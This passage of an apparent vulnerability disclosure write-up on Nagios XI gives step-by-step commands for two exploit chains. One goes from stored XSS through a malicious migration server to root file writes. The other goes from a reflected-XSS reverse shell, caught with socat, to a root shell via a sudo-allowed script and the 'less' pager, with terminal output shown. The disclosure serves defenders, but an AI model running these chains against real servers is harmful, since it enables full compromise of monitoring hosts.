Nagios to initiate the migration to the server we set up. The migrate
server endpoint queues a command internally that ends up invoking a
`migrate.php` script with sudo (normally it would run as the Nagios
user, but this migrate script is a special case Nagios explicitly adds
to `/etc/sudoers`).

This PHP migration script populates and runs an Ansible playbook, which
uploads a script to our SSH server, runs it, and downloads the resulting
configuration bundle. Since we’ve deliberately modified the server to
break assumptions in their script, the playbook ends up downloading a
tarball that we fully control. The migrate script then copies an
“unbundling” Python script to a temporary directory along with our
tarball, and then the script extracts our tarball and runs the
unbundling script. Since we control the tarball’s contents, we craft it
to contain a file with the same name as the unbundling script so our
script is the one that ends up getting executed as root.

```
# 1. Stand up the malicious migration server, which includes generating the XSS
# payload. Note that docker cares about what directory you build from, so run
# the script from the migrate directory. The script will spawn a container that
# stays open on the terminal and listens until it receives the migrate connection.
> cd migrate/
> ./run_in_docker.sh <External IP of the migrate server>

# 2. In a new terminal, spin up a default Nagios XI server and a default Nagios XI
# client as shown below.
# On the Nagios Server, ensure there's a password or delete the password line
> vim /usr/local/nagios/etc/nsca.cfg

# Update `nsca_xss/send_nsca.cfg` on the client to match the password
# and encryption_method fields from the server.
> vim ./nsca_xss/send_nsca.cfg

# On the Nagios Server, ensure that the client machine is configured in the xinetd
# config. If it's not already allowed, Add a line to allow the specific IP or
# subnet, such as `only_from += 192.168.0.0`. The IP or subnet is where the
# xi_nsca_xss.py script will connect from, and doesn't need to be the same as
# the migrate server, but it may be, depending on your setup.
> sudo vim /etc/xinetd.d/nsca

# If you change the file, restart the xinetd service to apply the configuration
# as shown below, or use an equivalent command if not on Ubuntu 20.04.
> sudo systemctl restart xinetd.service

# 3. On the Nagios XI client, run the script that will connect as an NSCA client
# and deliver the XSS payload file generated by migrate/run_in_docker.sh
> cd nsca_xss
> python xi_nsca_xss.py --xss_payload_file ../migrate/xss_payload.html <IP/Hostname of Nagios Server>

# 4. Log into the Nagios web console as admin, at which point you may be warned
# that the client on localhost is down depending on your configuration. Navigate
# to Details -> Host Status, then click on localhost in the host entry table to
# see the host details. Once you visit this page, the XSS payload will start, so
# just wait for the demonstration payload to run.
> firefox http://nagiosbox.lan/nagiosxi/
# For demonstration purposes, the payload includes a visible comment with text
# referencing XSS, and the payload will also pop an alert box after a safe
# amount of time has passed. If you want to run the payload more than once,
# delete the existing comment by clicking the red X button next to it.

# 5. At this point, the full chain should have run. On success, the exploit
# writes a file to disk owned by root.
> ls -la /tmp/proof_of_root
-rwsrwxrwx 1 root root 9 Sep 13 08:30 /tmp/proof_of_root
```

In our demonstration, we execute a payload that writes a file and
changes the permissions to show it is owned by root, but a real attacker
at this point would have all the privileges needed to establish a
persistent presence and begin surveying the Nagios server to see where
they can easily spread to within the network. Using the NRDP access
method would look nearly identical, except it starts with a simpler
method for executing external commands.

<figure>
<figcaption aria-hidden="true">Diagram of escalating to root via XSS-triggered “migrate server” request</figcaption>
</figure>

## Example End-to-End Attack: Reflected XSS to Plugin Upload to root

The reflected XSS attack vectors require user interaction, but are
simpler and lead to the same end goal: remote attackers executing
commands as root. In the cases of the reflected XSS, we demonstrate two
URLs which can accept parameters that will ultimately be rendered as
JavaScript and run in the user’s context, so if an admin can be
convinced to click the link, the payload will execute. The payload will
run immediately if an admin is already logged in to the Nagios web
application on their current browsing session, but if they are not, they
will be prompted to log in and then the attack will run. This is because
Nagios preserves the parameters for these requests even when it
redirects for logins.

In this example we will choose to use the other included root escalation
payload, which establishes an interactive reverse shell and then invokes
a shell script that is specifically allowed for execution with sudo. The
steps required to reproduce are shown in detail in Listing
<a href="#lst:rxss_demo" data-reference-type="ref" data-reference="lst:rxss_demo">[lst:rxss_demo]</a>.
By setting the IP to call back to, we can catch the interactive session
with socat and then run arbitrary commands as “www-data.” Then by
running “sudo /usr/local/nagiosxi/scripts/manage_services.sh”, on some
systems systemctl can be caused to invoke the system pager (in order to
display text one page at a time) as root. This was tested and shown to
work on Ubuntu 18.04, Ubuntu 20.04, and CentOS 8, while it did not work
on CentOS 7 due to the version of systemctl. Since the default system
pager is usually `less`, which allows users to enter an exclamation
point and then run commands, we can use this script to spawn a new root
shell as a remote attacker.

<figure>
<figcaption aria-hidden="true">Catching a reverse shell and escalating to root</figcaption>
</figure>

```
# 1. Set up socat listener on the client to catch our reverse shell. Leave this
# terminal window open.
> socat file:`tty`,raw,echo=0 tcp-listen:22473

# 2. Edit the reverse shell payload so rev_shell_ip reflects the IP of your
# socat listener.
> vim xss_payloads_and_ssrf_tools/payloads/rev-shell-payload.js

# 3. Generate the Reflected XSS Payload
cd xss_payloads_and_ssrf_tools
python tools/package-payload.py payloads/rev-shell-payload.js --account \
  --host http://YOUR_NAGIOS_IP > link.txt

# 4. Open a browser and surf to the link written to stdout by the previous
# script or deliver the link in whatever manner you prefer. Login in as a Nagios
# admin user if you are prompted to do so.
> firefox `cat link.txt`

# 5. Return to the socat listener, which should have a connection, then perform
# the privesc via manage_services.sh. Using TERM=linux is optional but it silences
# a warning. Note that you type `!/bin/sh' while the service status text is
# displayed to invoke the command via `less', which is runing as root.
> whoami
www-data
> export TERM=linux
> sudo /usr/local/nagiosxi/scripts/manage_services.sh status nagios
* nagios.service - Nagios Core 4.4.6
   Loaded: loaded (/lib/systemd/system/nagios.service; enabled; vendor preset: e
   Active: active (running) since Mon 2021-09-13 07:58:26 PDT; 1h 16min ago
     Docs: https://www.nagios.org/documentation
  Process: 1764 ExecStart=/usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/
  Process: 1761 ExecStartPre=/usr/local/nagios/bin/nagios -v /usr/local/nagios/e
 Main PID: 1765 (nagios)
    Tasks: 8 (limit: 9461)
   CGroup: /system.slice/nagios.service
           |-1765 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.c
           |-1766 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1767 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1768 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1769 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1770 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1771 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           `-1920 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.c
> !/bin/sh
# 
> whoami
root
```

# Timeline

-   09/13/2021 - Notified vendor

-   09/13/2021 - Vendor acknowledged disclosure

-   10/28/2021 - New versions of software released with patches

-   10/28/2021 - NotQuite0DayFriday release

-   10/28/2021 - Blog post release
